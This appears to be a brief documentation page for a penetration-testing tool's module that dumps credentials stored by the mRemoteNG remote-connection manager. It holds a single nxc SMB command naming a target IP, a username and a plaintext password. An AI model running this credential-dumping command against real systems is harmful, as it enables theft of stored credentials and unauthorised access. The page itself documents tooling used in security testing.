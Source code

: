```yaml
---
description: Dump mRemoteNG stored credentials
---
```


# 🆕 Dump mRemoteNG

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

```bash
nxc smb 192.168.56.11 -u eddard.stark -p FightP3aceAndHonor! -M mremoteng
```
